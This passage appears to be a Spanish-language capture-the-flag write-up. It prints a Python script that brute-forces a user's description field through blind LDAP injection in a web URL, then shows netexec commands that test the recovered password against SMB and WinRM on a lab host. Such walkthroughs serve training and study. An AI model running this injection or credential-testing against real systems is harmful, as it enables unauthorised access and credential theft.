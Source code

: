 ```python
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits + '.*&$€?!¿¡%@#'

def ldapInjection():

    p1 = log.progress("LDAP Injection")
    p1.status("Starting LDAP Injection")

    time.sleep(2)

    p2 = log.progress("Description")

    description = ""

    for position in range(30):
        for character in characters:
            try:
                p1.status(main_url + f"technician)(description={description}{character}*")
                r = requests.get(main_url + f"technician)(description={description}{character}*")
                username = re.findall(r'<strong>(.*?)</strong>', r.text)[0]

                if "technician" in username:
                    description += character
                    p2.status(character)
                    break
            except:
                description += character
                p2.status(character)
                break

if __name__ == '__main__':

    ldapInjection()
```

Ejecutaremos el script de Python y a través de fuerza bruta comprobaremos el contenido de la descripción, una descripción un tanto extraña, que más bien parece una contraseña.

```bash
python3 user_technician_description_ldap_injection.py
```

<figure><img src="../../../../../.gitbook/assets/1637_vmware_9BGVJPN6AX.png" alt=""><figcaption></figcaption></figure>

Verificaremos con **netexec** de validar las credenciales en SMB y WinRM, comprobamos que las credenciales son válidas pero no disponemos de acceso para acceder mediante **Evil-WinRM** en el protocolo de **WinRM**.

```bash
netexec smb 10.10.11.250 -u technician -p '97NTtl*4QP96Bv'

netexec winrm 10.10.11.250 -u technician -p '97NTtl*4QP96Bv'
```
